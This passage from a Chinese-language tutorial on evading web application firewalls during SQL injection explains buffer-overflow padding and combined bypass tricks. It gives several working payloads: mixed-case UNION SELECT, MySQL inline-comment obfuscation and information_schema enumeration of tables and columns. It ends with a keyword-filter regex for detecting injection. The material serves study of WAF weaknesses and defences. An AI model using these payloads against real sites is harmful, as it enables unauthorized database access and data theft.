 不同的Web服务器处理处理构造得特殊请求时有不同的逻辑

![2014022613570037001.jpg](http://drops.javaweb.org/uploads/images/71662d2546d9af2508b1ab058bc50e4b8daf54f2.jpg)

以魔术字符%为例Asp/Asp.net会受到影响

![2014022613574878521.jpg](http://drops.javaweb.org/uploads/images/5e58333d07b2034caf73867b5ac36c11e9d3fb7a.jpg)

### h) 缓冲区溢出(Advanced)

缓冲区溢出用于对付WAF在内的软件本身有不少WAF是C语言写的而C语言自身没有缓冲区保护机制因此如果WAF在处理测试向量时超出了其缓冲区长度就会引发bug从而实现绕过

举例

```
?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

```

示例0xA*1000指0xA后面”A"重复1000次一般来说对应用软件构成缓冲区溢出都需要较大的测试长度这里1000只做参考也许在有些情况下可能不需要这么长也能溢出

### i) 整合绕过

整合的意思是结合使用前面谈到的各种绕过技术单一的技术可能无法绕过过滤机制但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说关系到总体与局部和另一方面则是多种技术的使用创造了更多的可能性组合除非每一种技术单独都无法使用否则它们能产生比自身大得多的能量。

举例

```
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--  

```

0x03 SQLi Filter的实现及Evasion
---------------------------

* * *

SQL Injection时用得最多的一些关键字如下

```
and, or, union, where, limit, group by, select, ', hex, substr, white space

```

对它们的检测完整正则表达式为

```
preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)

```
